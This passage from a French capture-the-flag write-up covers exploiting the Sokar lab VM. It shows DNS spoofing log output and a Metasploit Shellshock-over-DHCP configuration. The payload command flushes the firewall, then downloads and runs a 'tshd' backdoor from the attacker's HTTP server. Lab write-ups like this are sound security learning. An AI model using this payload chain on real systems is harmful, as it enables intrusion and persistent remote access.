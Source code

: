 ```plain
[*] DNS server started
```

Voilà, voilà... On reboot la VM et cette fois :  

```plain
[*] 192.168.1.63:55310 - DNS - DNS target domain found: sokar
[*] 192.168.1.63:55310 - DNS - DNS target domain sokar faked
[*] 192.168.1.63:55310 - DNS - XID 14390 (IN::A sokar)
[*] 192.168.1.63:40661 - DNS - DNS target domain found: sokar
[*] 192.168.1.63:40661 - DNS - DNS target domain sokar faked
[*] 192.168.1.63:40661 - DNS - XID 59318 (IN::A sokar)
[*] 192.168.1.63:40661 - DNS - XID 61056 (IN::AAAA sokar, UNKNOWN IN::AAAA)
[*] 192.168.1.63:58504 - DNS - XID 16266 (IN::PTR 3.1.168.192.in-addr.arpa)
[*] 192.168.1.63:54839 - DNS - DNS target domain found: sokar
[*] 192.168.1.63:54839 - DNS - DNS target domain sokar faked
[*] 192.168.1.63:54839 - DNS - XID 28479 (IN::A sokar)
[*] 192.168.1.63:54839 - DNS - XID 45067 (IN::AAAA sokar, UNKNOWN IN::AAAA)
[*] 192.168.1.63:41065 - DNS - XID 55708 (IN::PTR 3.1.168.192.in-addr.arpa)
```

Tout se passe bien comme prévu... sauf qu'il n'y a pas de cocktail surprise :( Aucune autre connexion n'est tentée par la VM.  

![Sokar - DNS hijack](https://raw.githubusercontent.com/devl00p/blog/master/images/sokar/capt2.png)

Puisqu'un client DHCP tourne sur la machine j'ai choisi de m'orienter vers la faille [Shellshock](http://d4n3ws.polux-hosting.com/2014/09/24/vulnerabilite-dans-bash/) qui concerne aussi DHCP.  

Après avoir mis fin au faux serveur DHCP je configure le module *Metasploit* qui nous intéresse :  

```plain
msf > use exploit/unix/dhcp/bash_environment
msf exploit(bash_environment) > set SRVHOST 192.168.1.3
SRVHOST => 192.168.1.3
msf exploit(bash_environment) > set ROUTER 192.168.1.3
ROUTER => 192.168.1.3
msf exploit(bash_environment) > set NETMASK 255.255.255.0
NETMASK => 255.255.255.0
msf exploit(bash_environment) > set DHCPIPSTART 192.168.1.62
DHCPIPSTART => 192.168.1.62
msf exploit(bash_environment) > set DHCPIPEND 192.168.1.100
DHCPIPEND => 192.168.1.10
msf exploit(bash_environment) > set payload cmd/unix/generic
payload => cmd/unix/generic
msf exploit(bash_environment) > set CMD "iptables -F; wget http://192.168.1.3:8000/tshd -O /tmp/tshd;chmod 755 /tmp/tshd;setsid /tmp/tshd"
CMD => iptables -F; wget http://192.168.1.3:8000/tshd -O /tmp/tshd;chmod 755 /tmp/tshd;setsid /tmp/tshd
```

Ici le payload consiste d'abord à supprimer les règles du pare-feu qui nous embêtent puis à lancer un serveur *tshd*.  

On aura préalablement mit en place un mini serveur HTTP pour que la victime récupère la backdoor.  
